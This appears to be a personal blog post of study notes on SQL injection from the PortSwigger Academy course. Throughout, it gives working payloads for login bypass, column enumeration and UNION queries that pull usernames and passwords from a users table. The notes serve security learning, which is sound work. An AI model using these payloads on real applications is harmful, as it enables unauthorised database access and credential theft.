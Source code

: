 ```yaml
---
title: SQL Injection Portswigger Academy Notes
date: 2023-01-14 13:35:00 -0500
categories: [Resources]
tags: [SQLi, sql Injection]
---
```


## Retriving Hidden Data

If the application doesnt provide any protections against SQLi attacks an attacker can construct an attack by commenting out the SQL query with `'--`.

```shell
https://insecure-website.com/products?category=Gifts'--
```

Resulting in the SQL Query:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

We can use `'+OR+1=1--` to display all products in any category

```shell
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

> Take care when injecting the condition `OR 1=1` into a SQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an `UPDATE` or `DELETE` statement, for example, this can result in an accidental loss of data. 
{: .prompt-danger }

## Subverting application logic

If a login form doesnt use sqli protections commenting out the user `administrator'--` we can send through a request that looks like this and avoid using a password `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

## SQL injection UNION attacks

We can use SQL's UNION keyword to retrive data from other tables in the database. The UNION command lets us chain together SELECT queries and append the results to the origional query.

For union attacks to work the two SELECT queries must return the same number of columns. The data types must be compatible in the different queries.

### Determining the number of columns required in UNION attacks

```shell
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

The response will display different results depending on the query send and you can usually tell what query is working by the response. 

```shell
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

Again, the application might actually return this error message, or might just return a generic error or no results. When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. 

### Finding columns with a useful data type in a SQL injection UNION attack

Once we have determined the number of columns we can probe the colums to test it it contains the string data and if we recieve a good response we can  cycle through chars to get the column information.

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Using a SQL injection UNION attack to retrieve interesting data

 Suppose that:

   - The original query returns two columns, both of which can hold string data.
   - The injection point is a quoted string within the WHERE clause.
   - The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the users table by submitting the input:

```shell
' UNION SELECT username, password FROM users--
```

Of course to do this attack we have to know the column names and programs now will automatically parse through all characters until it find the correct column name instead of doing this manually that would take years.

### Retrieving multiple values

- `' UNION SELECT username || '~' || password FROM users--`
